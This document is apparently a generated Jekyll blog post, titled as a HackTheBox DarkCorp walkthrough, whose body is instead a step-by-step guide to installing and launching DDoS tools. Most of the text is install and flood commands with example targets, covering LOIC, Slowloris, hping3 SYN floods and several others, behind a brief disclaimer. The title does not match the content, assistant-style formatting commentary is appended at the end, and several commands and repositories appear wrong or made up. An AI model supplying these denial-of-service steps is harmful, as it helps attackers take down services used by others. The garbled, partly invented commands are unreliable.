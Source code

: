 ```yaml
---
title: DarkCorp - HackTheBox Season 7 Walkthrough
date: 2025-02-12
categories: [HackTheBox, Penetration Testing]
tags: [hackthebox, penetration-testing, sshuttle, evil-winrm, htb, darkcorp htb]
image:
  path: https://pbs.twimg.com/media/GjHp3BjWcAAQAVB.jpg
  description: A walkthrough of the DarkCorp machine from HackTheBox Season 7, covering network pivoting and privilege escalation.
author: Ans Inayat
---
```


## Introduction

DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.

## Prerequisites

- A Linux machine with at least 2 GB of RAM and a stable internet connection
- Basic knowledge of command-line interface (CLI)

## Installation and Usage

### LOIC (Low Orbit Ion Cannon)

1. Install Mono on your Linux machine  
```bash
sudo apt-get install mono-complete
```

2. Download the latest version of LOIC  
```bash
wget https://github.com/NewEraCracker/LOIC/releases/download/v2.1.2/loic_2.1.2.zip
```

3. Unzip the downloaded file  
```bash
unzip loic_2.1.2.zip
```

4. Navigate to the unzipped directory  
```bash
cd loic_2.1.2
```

5. Launch LOIC  
```bash
mono LOIC.exe
```

**Usage Instructions**  
- Select attack type (e.g., HTTP Flood) from drop-down  
- Enter target IP/Domain  
- Specify target port  
- Configure connections and duration  
- Click "Start" to initiate attack  
- Click "Stop" to terminate attack  

### HULK (High-Level Unconventional Load Killer)

1. Install HULK  
```bash
pip install hulk
```

2. Execute attack  
```bash
hulk -a <attack-type> -t <target-ip> -p <target-port> -d <duration>
```

**Example**  
```bash
hulk -a http -t 192.168.1.100 -p 80 -d 60
```

### DDOS-Ripper

1. Install DDOS-Ripper  
```bash
git clone https://github.com/palahsu/DDoS-Ripper.git
cd DDoS-Ripper
./install.pl
```

2. Launch attack  
```bash
perl DRipper.pl -s <target-ip> -p <target-port> -t <attack-type> -d <duration>
```

**Example**  
```bash
perl DRipper.pl -s 192.168.1.100 -p 80 -t http -d 60
```

### Torshammer

1. Install Torshammer  
```bash
git clone https://github.com/dotfighter/torshammer.git
cd torshammer
./install.sh
```

2. Execute attack  
```bash
./torshammer.py -t <target-ip> -p <target-port> -r <requests-per-second> -d <duration>
```

**Example**  
```bash
./torshammer.py -t 192.168.1.100 -p 80 -r 1000 -d 60
```

### Slowloris

1. Install Slowloris  
```bash
git clone https://github.com/gkbrk/slowloris.git
```

2. Execute attack  
```bash
cd slowloris
perl slowloris.pl -dns <target-domain> -timeout 10
```

**Example**  
```bash
perl slowloris.pl -dns example.com -timeout 10
```

### PyLoris

1. Install PyLoris  
```bash
git clone https://github.com/NoLegalTech/pyloris.git
cd pyloris
pip install -r requirements.txt
```

2. Execute attack  
```bash
python pyloris.py <target-ip> <target-port> <number-of-sockets>
```

**Example**  
```bash
python pyloris.py 192.168.1.100 80 1000
```

### DDoSX

1. Install DDoSX  
```bash
git clone https://github.com/Bilalcaliskan/DDoSX.git
cd DDoSX
pip install -r requirements.txt
```

2. Execute attack  
```bash
python3 DDoSX.py -t <target-ip> -p <target-port> -d <duration>
```

**Example**  
```bash
python3 DDoSX.py -t 192.168.1.100 -p 80 -d 60
```

### SlowHTTPTest

1. Install SlowHTTPTest  
```bash
git clone https://github.com/shekyan/slowhttptest.git
cd slowhttptest
./configure
make
```

2. Execute attack  
```bash
./slowhttptest -c <concurrent-connections> -H -r <requests-per-second> -t <duration> -u <target-url>
```

**Example**  
```bash
./slowhttptest -c 100 -H -r 1000 -t 60 -u http://example.com
```

### Hping3

1. Install Hping3  
```bash
sudo apt-get install hping3
```

2. Execute attack  
```bash
hping3 -S <target-ip> -p <target-port> -i u<interval-in-ms> -c <number-of-packets>
```

**Example**  
```bash
hping3 -S 192.168.1.100 -p 80 -i u1000 -c 10000
```

## Disclaimer

> **WARNING**: Conducting DDoS attacks without explicit authorization is illegal in most jurisdictions. This material is provided for educational purposes only. The author assumes no responsibility for any misuse of this information. Always obtain written permission from the target system owner before conducting any security testing.

## Conclusion

This guide has demonstrated installation and usage procedures for various DDoS tools. Remember that ethical hacking principles require explicit authorization for any penetration testing activities. These techniques should only be used in controlled environments for legitimate security research purposes.
```

### Key Features of the Format:
1. **Front Matter**: Includes metadata like `title`, `date`, `categories`, `tags`, `image`, and `author`.
2. **Code Blocks**: Properly formatted with triple backticks and syntax highlighting.
3. **Sections**: Organized with clear headings and subheadings.
4. **Disclaimer**: Highlighted with a blockquote for emphasis.
5. **Conclusion**: Summarizes the purpose and ethical considerations.

This format is ready to be used in a Jekyll-based website. Simply save it as a `.md` file in the `_posts` directory with the appropriate date in the filename.

